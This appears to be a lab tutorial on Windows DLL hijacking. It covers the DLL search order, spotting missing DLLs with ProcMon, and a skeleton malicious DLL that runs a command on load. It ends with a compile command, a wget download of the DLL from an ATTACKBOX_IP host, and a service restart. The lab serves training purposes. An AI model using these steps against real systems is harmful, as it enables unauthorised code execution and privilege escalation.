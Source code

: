 # DLL Hijacking

## **Introduction to DLL Files**

A DLL Hijacking scenario consists of replacing a legitimate DLL file with a malicious DLL file that will be called by the executable and run. By this point, you may have an idea about the specific conditions required for a successful DLL hijacking attack. These can be summarized as;

1. An application that uses one or more DLL files.
2. A way to manipulate these DLL files.

Manipulating DLL files could mean replacing an existing file or creating a file in the location where the application is looking for it. To have a better idea of this, we need to know where applications look for DLL files. At this point, we will look to the DLL search order. Microsoft has a document on the subject located [here](https://docs.microsoft.com/en-us/windows/win32/dlls/dynamic-link-library-search-order).



In summary, for standard desktop applications, Windows will follow one of the orders listed below depending on if the SafeDllSearchMode is enabled or not.

\


If **SafeDllSearchMode** is enabled, the search order is as follows:

1. The directory from which the application loaded.
2. The system directory. Use the [**GetSystemDirectory**](https://docs.microsoft.com/en-us/windows/desktop/api/sysinfoapi/nf-sysinfoapi-getsystemdirectorya) function to get the path of this directory.
3. The 16-bit system directory. There is no function that obtains the path of this directory, but it is searched.
4. The Windows directory. Use the [**GetWindowsDirectory**](https://docs.microsoft.com/en-us/windows/desktop/api/sysinfoapi/nf-sysinfoapi-getwindowsdirectorya) function to get the path of this directory.
5. The current directory.
6. The directories that are listed in the PATH environment variable. Note that this does not include the per-application path specified by the **App Paths** registry key. The **App Paths** key is not used when computing the DLL search path.

If **SafeDllSearchMode** is disabled, the search order is as follows:

1. The directory from which the application loaded.
2. The current directory.
3. The system directory. Use the [**GetSystemDirectory**](https://docs.microsoft.com/en-us/windows/desktop/api/sysinfoapi/nf-sysinfoapi-getsystemdirectorya) function to get the path of this directory.
4. The 16-bit system directory. There is no function that obtains the path of this directory, but it is searched.
5. The Windows directory. Use the [**GetWindowsDirectory**](https://docs.microsoft.com/en-us/windows/desktop/api/sysinfoapi/nf-sysinfoapi-getwindowsdirectorya) function to get the path of this directory.
6. The directories that are listed in the PATH environment variable. Note that this does not include the per-application path specified by the **App Paths** registry key. The **App Paths** key is not used when computing the DLL search path.

## **Finding DLL Hijacking Vulnerabilities**

The screenshot below shows you what to look for in the ProcMon interface. You will see some entries resulted in “NAME NOT FOUND”.

![](https://tryhackme-images.s3.amazonaws.com/user-uploads/603df7900d7b6f1dff18b0bd/room-content/2bffcc52df1b20dd298154b4da9b52ae.png)

The last two lines in the screenshot above show that dllhijackservice.exe is trying to launch hijackme.dll in the “C:\Temp” folder but can not find this file. This is a typical case of a missing DLL file.

The second step of the attack will consist of us creating this file in that specific location. It is important that we have write permissions for any folder we wish to use for DLL hijacking. In this case, the location is the Temp folder for which almost all users have write permissions; if this was a different folder, we would need to check the permissions.

## **Creating the malicious DLL file**

As mentioned earlier, DLL files are executable files. They will be run by the executable file, and the commands they contain will be executed. The DLL file we will create could be a reverse shell or an operating system command depending on what we want to achieve on the target system or based on configuration limitations. The example below is a skeleton DLL file you can adapt according to your needs.

\


Skeleton Code for the Malicious DLL

```shell-session
#include <windows.h>

BOOL WINAPI DllMain (HANDLE hDll, DWORD dwReason, LPVOID lpReserved) {
    if (dwReason == DLL_PROCESS_ATTACH) {
        system("cmd.exe /k whoami > C:\\Temp\\dll.txt");
        ExitProcess(0);
    }
    return TRUE;
}
```

\


Leaving aside the boilerplate parts, you can see this file will execute the `whoami` command (`cmd.exe /k whoami`) and save the output in a file called "dll.txt".

\


The mingw compiler can be used to generate the DLL file with the command given below:

`x86_64-w64-mingw32-gcc windows_dll.c -shared -o output.dll`

\


You can easily install the Mingw compiler using the apt install gcc-mingw-w64-x86-64 command.

\


We have seen earlier that the application we target searches for a DLL named hijackme.dll. This is what our malicious DLL should be named.

\


You can copy the C code above given for the DLL file to the AttackBox or the operating system you are using and proceed with compiling.

\


Once compiled, we will need to move the hijackme.dll file to the Temp folder in our target system. You can use the following PowerShell command to download the .dll file to the target system: `wget -O hijackme.dll ATTACKBOX_IP:PORT/hijackme.dll`\


\


![](https://tryhackme-images.s3.amazonaws.com/user-uploads/603df7900d7b6f1dff18b0bd/room-content/6dd2070eda0924f1b6d601e63301fe05.png)

We will have to stop and start the dllsvc service again using the command below:

`sc stop dllsvc & sc start dllsvc`

